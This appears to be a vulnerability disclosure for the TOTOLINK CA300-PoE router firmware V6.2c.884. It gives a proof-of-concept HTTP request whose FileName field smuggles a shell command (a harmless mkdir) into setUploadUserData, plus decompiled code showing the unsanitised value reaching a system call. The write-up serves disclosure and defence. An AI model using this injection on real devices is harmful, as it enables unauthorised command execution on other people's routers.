




# TOTOLINK  CA300-PoE V6.2c.884 was discovered to contain a command injection vulnerability via the FileName parameter in the function setUploadUserData

## Description

`TOTOLINK` Router **CA300-PoE V6.2c.884** was found to contain a command injection vulnerability in `setUploadUserData`.

## 

## Firmware information

* Manufacturer's address:https://www.totolink.net/
* Firmware download address : https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/139/ids/36.html


## Affected version

**Version: V6.2c.884**



## Vulnerability details

POC1:

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 100
Origin: http://192.168.0.254
Connection: keep-alive
Referer: http://192.168.0.254/adm/network_daig.asp?timestamp=1673492576260
Cookie: SESSION_ID=2:1673492439:2

{"topicurl" : "setting/setUploadUserData", "ContentLength":"10485", "FileName": "a|mkdir /setUploadUserData_1111;"}
```

Folder created successfully



```
int __fastcall setUploadUserData(int a1, int a2, int a3)
{
  const char *FileName_v; // $s3
  int ContentLength_v; // $s1
  int Object; // $s0
  int v9; // $s1
  int v10; // $v0
  int v11; // $s1
  const char *v13; // $a0
  int String; // $v0
  int v15; // $s2
  int v16; // $s0
  char v17[256]; // [sp+24h] [-104h] BYREF

  FileName_v = (const char *)websGetVar(a2, "FileName", "");
  ContentLength_v = websGetVar(a2, "ContentLength", "");
  set_action(3);
  Object = cJSON_CreateObject();
  v9 = strtol(ContentLength_v, 0, 10);
  if ( v9 < 1000 )
  {
    v13 = "MSG_userData_error";
    goto LABEL_7;
  }
  if ( v9 >= 1048577 )
  {
    v13 = "MSG_userData_big";
LABEL_7:
    String = cJSON_CreateString(v13);
    cJSON_AddItemToObject(Object, "upgradeERR1", String);
    unlink(FileName_v);
    set_action(0);
    goto LABEL_5;
  }
  if ( !fork(0) )
  {
    sleep(2);
    memset(v17, 0, sizeof(v17));
    v15 = malloc(v9);
    v16 = f_read(FileName_v, v15, 0, v9);
    if ( CS_DBG == 1 )
      printf("(%s:%d)=> inLen=[%d]\n", "setUploadUserData", 350, v16);
    f_write("/tmp/plugin.tar.gz", v15, v16, 0);
    free(v15);
    sprintf(v17, "md5sum %s | awk '{ print $1 }' > %s", "/tmp/plugin.tar.gz", "/userdata/SysPluginMd5");
    CsteSystem(v17, 0);
    CsteSystem("tar zxvf /tmp/plugin.tar.gz -C /tmp", 0);
    CsteSystem("sh /tmp/plugin/plugin.sh", 0);
    CsteSystem("rm -rf /tmp/plugin.tar.gz", 0);
    sprintf(v17, "rm -rf %s", FileName_v);
    CsteSystem(v17, 0);
    set_action(0);
    exit(1);
  }
  v10 = cJSON_CreateString("1");
  cJSON_AddItemToObject(Object, "upgradeStatus", v10);
LABEL_5:
  v11 = cJSON_Print(Object);
  websGetCfgResponse(a1, a3, v11);
  cJSON_Delete(Object);
  free(v11);
  return 0;
}
```




